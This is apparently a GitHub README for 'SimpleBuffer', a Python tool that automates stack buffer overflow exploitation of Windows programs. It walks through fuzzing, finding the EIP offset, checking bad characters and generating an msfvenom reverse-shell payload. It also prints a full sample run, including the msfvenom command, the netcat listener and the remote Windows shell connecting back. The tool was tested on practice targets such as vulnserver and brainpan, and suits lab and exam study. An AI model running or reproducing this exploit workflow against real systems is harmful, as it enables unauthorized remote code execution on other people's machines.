 # SimpleBuffer
This script minimizes the time and effort to get your buffer overflow shell in few simple clicks.

`Usage: simplebuffer.py`

the script was tested on the follwoing samples:
* [brainpan.exe](https://github.com/freddiebarrsmith/Buffer-Overflow-Exploit-Development-Practice/tree/master/brainpan) by freddiebarrsmith
* [vulnserver.exe](https://github.com/stephenbradshaw/vulnserver) by stephenbradshaw
* [dostackbufferoverflowgood.exe](https://github.com/justinsteven/dostackbufferoverflowgood) by justinsteven

## Features:
* Fuzzing.
* Getting offset value.
* Supports prefix and postfix.
* Generates pattern
* Sends bad character.
* Auto assemble the paylaod.
* Auto generate an msfvenom reverse shell shellcode including nops.
* Sets up a netcat listener 
* Sends the payload to the target machine

## How to:
### Phase 1:
1. In order for the script to work, you need to get the return value using mona modules along with immunity debugger.
2. once you have the return value convert it to little endian format (ex: \xf3\x12\x17\x31) enter it inside the script in 'module' variable along with the target IP and port. *Note: if your executable requires a prefix or postfix enter it as well.*
3. Run immunity debugger in Windows 32 bit and load the executable file and press F9.
4. From your Kali, run the script, the script will start fuzzing until the program crashes.
5. In immunity debugger, check the EIP value it should read 41414141.
6. Relaod the executable in immunity debugger by pressing ctrl+F2, then go back to the script and press enter.
7. The value of the EIP should change, copy it and paste it in the script, then press ENTER.
8. The script will send badchars, find if any badchars are present. 
9. check for any bad character, if none type "\x00" or \x00 + badchars.
10. Finally, reload the executable in immunity debugger then go back to the script and press Enter, you should now get a shell. in case you did not get a shell add the offset value in the script and run it again.

### Phase 2:
if you got a shell working on your local envirment machine, you can now add your offset value in the script and change the IP to your target machine. the script will skip all previous processes and start generating the shellcode and connect to the target machine. 

## Usage:

`Usage: simplebuffer.py`
```
root@Kali:~/SimpleBuffer# python simplebuffer.py 
Starting SimpleBuffer at 18:31:14
SimpleBuffer report for 10.0.2.5
[+] Connected to host successfully
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes

[!] Possible overflow detected at 800 bytes                                                               
[!] The EIP value should now be 41414141
[!] Reload the program to get the return value and then press Enter : 
[!] Connecting ...
[+] Connected to host successfully
[!] Sending Pattern
[*] Enter the value of the EIP : 35724134
[!] Exact match found at 524
[!] Reload the program to get the badchars and then press Enter : 
[!] Connecting ...
[+] Connected to host successfully
[!] Sending badchars ...
[!] Your EIP value should now be 42424242
[!] Enter badchars or Type "x00" if no badchars found: \x00
[!] Generating shellcode ...
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.3 LPORT=4444 EXITFUNC=thread -f raw -a x86 --platform windows -n 32 --smallest -b \x00                                                                           
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x78)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
Attempting to encode payload with 1 iterations of x86/countdown
x86/countdown failed with Encoding failed due to a bad character (index=12, char=0x30)
Attempting to encode payload with 1 iterations of x86/fnstenv_mov
x86/fnstenv_mov succeeded with size 346 (iteration=0)
Attempting to encode payload with 1 iterations of x86/jmp_call_additive
x86/jmp_call_additive succeeded with size 353 (iteration=0)
Attempting to encode payload with 1 iterations of x86/xor_dynamic
x86/xor_dynamic failed with Encoding failed due to a nil character
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed failed with Encoding failed due to a bad character (index=32, char=0x30)
Attempting to encode payload with 1 iterations of x86/alpha_upper
x86/alpha_upper failed with Encoding failed due to a bad character (index=24, char=0x30)
Attempting to encode payload with 1 iterations of x86/nonalpha
x86/nonalpha failed with Encoding failed due to a bad character (index=50, char=0x30)
Attempting to encode payload with 1 iterations of x86/nonupper
x86/nonupper failed with Encoding failed due to a nil character
x86/fnstenv_mov chosen with final size 346
Successfully added NOP sled of size 32 from x86/single_byte
Payload size: 378 bytes

[+] Shellcode Generated !
[!] Reload the program get a shell or press ENTER if you added required values:
[!] Connecting ...
[+] Connected to host successfully
[!] Sending Payload
listening on [any] 4444 ...
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.5] 49820
Microsoft Windows [Version 10.0.19042.631]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Users\Windows10\Desktop>
```

### Notes:
- make sure pattern_create.rb is located in `/usr/share/metasploit-framework/tools/exploit/`
- scripts will run on >= Python 2.7
- the script uses eth0 as default network interface, change it if you have different network interface name.

Devoleped by Muhannad

